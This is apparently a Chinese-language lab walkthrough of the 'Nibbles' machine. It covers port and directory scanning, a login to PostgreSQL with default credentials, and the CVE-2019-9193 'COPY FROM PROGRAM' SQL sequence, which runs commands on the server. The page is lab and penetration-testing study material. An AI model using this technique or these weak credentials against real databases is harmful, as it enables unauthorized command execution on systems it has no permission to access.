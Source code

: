 ```yaml
---
icon: check
description: Medium / Linux / PostgreSQL命令执行 / CVE-2019-9193
---
```


# ✔️ Nibbles

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA nibbles 192.168.215.47 --open
```

<figure><img src="../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 扫描的同时可尝试直接使用IP地址登录查看是否有Web页面，很幸运有，但是好像没有什么特别的信息。

<figure><img src="../.gitbook/assets/1 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/2 (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/3 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (12).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch检查是否有隐藏文件/目录，没有：

```bash
dirsearch -u  http://192.168.218.47 -x 403,404,400
```

<figure><img src="../.gitbook/assets/4 (12).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的扫描结果，发现21端口正运行着FTP服务，尝试匿名登录，失败：

```bash
ftp 192.168.215.47
```

<figure><img src="../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 在5437端口上正在运行的是PostgreSQL 11.3-11.9版本的服务，搜索公开已知的漏洞发现了一个远程命令执行的漏洞正好适用于当前版本：

<figure><img src="../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 下载下来查看脚本使用说明：

```bash
searchsploit -m 50847.py
python3 50847.py -h
```

<figure><img src="../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 脚本利用始终失败，但是该端口运行的postgresql服务有弱口令登录，用上述脚本中的默认凭证可以成功登录该服务：

<figure><img src="../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

```bash
psql -h 192.168.210.47 -p 5437 -U postgres
```

<figure><img src="../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 根据上述搜索出的利用脚本得知漏洞为CVE-2019-9193，搜索找到可手动利用的步骤：

<figure><img src="../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

* 验证结果说明目标确实存在着命令执行漏洞：

```bash
\c postgres
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec; 
```

<figure><img src="../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例尝试用手动利用和脚本利用均无法成功反弹shell，暂不清楚原因先搁置...
{% endhint %}

<figure><img src="../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

***

## 权限提升

### 本地信息收集

### 漏洞利用

### ROOT

{% hint style="info" %}


(本例机器中途重置过，IP地址有变，不影响漏洞利用及其实现结果)
{% endhint %}
